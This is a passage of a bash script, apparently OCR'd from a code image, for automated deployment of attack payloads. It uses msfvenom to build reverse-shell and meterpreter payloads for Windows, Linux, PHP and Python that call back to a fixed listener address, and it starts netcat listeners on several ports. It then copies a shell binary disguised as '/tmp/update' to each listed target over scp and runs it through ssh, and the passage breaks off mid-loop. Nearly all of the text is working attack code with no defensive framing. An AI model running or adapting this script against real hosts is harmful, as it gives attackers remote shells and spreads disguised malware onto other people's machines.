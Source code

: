 ```bash
    except KeyboardInterrupt:
        break
EOF

# Automated payload deployment script
cat > deploy_payloads.sh << 'EOF'
#!/bin/bash

# Configuration
LHOST="192.168.1.5"
PORTS=(4444 4445 4446 4447)
TARGETS_FILE="targets.txt"

# Generate payloads for different platforms
generate_payloads() {
    echo "[+] Generating payloads..."
    
    mkdir -p payloads
    
    # Windows payloads
    msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f exe -o payloads/windows_shell.exe
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=4445 -f exe -o payloads/windows_meterpreter.exe
    
    # Linux payloads
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LHOST LPORT=4446 -f elf -o payloads/linux_shell
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=4447 -f elf -o payloads/linux64_shell
    
    # Web payloads
    msfvenom -p php/reverse_php LHOST=$LHOST LPORT=4444 -f raw -o payloads/shell.php
    msfvenom -p python/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f raw -o payloads/shell.py
    
    chmod +x payloads/linux*
    echo "[+] Payload generation complete"
}

# Set up listeners
setup_listeners() {
    echo "[+] Setting up listeners..."
    
    for port in "${PORTS[@]}"; do
        echo "[*] Starting listener on port $port"
        gnome-terminal -- bash -c "nc -lvp $port; exec bash" &
        sleep 1
    done
}

# Deploy payloads to targets
deploy_to_targets() {
    if [ ! -f "$TARGETS_FILE" ]; then
        echo "[-] Targets file not found: $TARGETS_FILE"
        return
    fi
    
    while IFS= read -r target; do
        echo "[+] Deploying to $target"
        
        # Try different deployment methods
        # SSH deployment
        scp payloads/linux_shell "$target:/tmp/update" 2>/dev/null && \
        ssh "$target" "chmod +x /tmp/update && /tmp/update &" 2>/dev/null
```